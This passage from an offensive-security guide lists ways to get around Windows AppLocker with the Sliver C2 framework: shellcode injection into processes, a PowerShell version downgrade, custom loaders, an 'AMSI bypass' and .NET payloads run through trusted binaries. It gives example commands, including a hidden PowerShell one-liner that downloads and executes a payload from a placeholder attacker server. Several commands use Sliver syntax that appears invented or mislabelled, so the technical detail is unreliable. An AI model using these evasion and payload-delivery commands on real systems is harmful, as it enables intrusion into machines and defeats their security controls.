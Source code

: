 #### 3. **Shellcode Injection**
   - **How It Works**: Sliver can generate shellcode that can be injected into a running process. Since this method doesn't require a file on disk, it can bypass AppLocker.
   - **Execution**: Generate shellcode with Sliver and inject it into a trusted process.
   - **Example**:
     ```bash
     use shellcode --payload windows/exec --command "cmd.exe /c calc.exe"
     ```
     Inject the generated shellcode into a process:
     ```bash
     inject --pid <PID> --shellcode /path/to/shellcode.bin
     ```

#### 4. **PowerShell Downgrade Attack**
   - **How It Works**: If PowerShell is running in Constrained Language Mode, you can use a PowerShell downgrade attack to force it into Full Language Mode, bypassing AppLocker restrictions.
   - **Execution**: Use Sliver to execute PowerShell commands that downgrade the PowerShell version to one that doesn't enforce AppLocker rules.
   - **Example**:
     ```bash
     powershell -version 2.0
     ```

#### 5. **Custom Loader**
   - **How It Works**: Sliver allows you to create custom loaders that can bypass AppLocker by using non-standard execution methods. These loaders can be designed to mimic trusted binaries or use less common execution paths.
   - **Execution**: Create a custom loader with Sliver and deploy it on the target system.
   - **Example**:
     ```bash
     generate --mtls --http --custom-loader /path/to/loader
     ```

#### 6. **AMSI Bypass**
   - **How It Works**: Sliver includes techniques to bypass AMSI (Antimalware Scan Interface), which can help in bypassing AppLocker by executing scripts that would otherwise be blocked.
   - **Execution**: Use AMSI bypass techniques before executing a payload that may be flagged by AMSI.
   - **Example**:
     ```powershell
     powershell -nop -w hidden -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<your_server>/payload.ps1')"
     ```

#### 7. **Using C# and .NET Payloads**
   - **How It Works**: Sliver can generate C# payloads that can be executed via trusted .NET binaries like `InstallUtil.exe`, `RegAsm.exe`, or `MSBuild.exe`. These are often allowed by AppLocker.
   - **Execution**: Generate a C# payload with Sliver and execute it using a trusted .NET binary.
   - **Example**:
     ```bash
     use csharp --payload windows/exec --command "cmd.exe /c calc.exe"
     ```

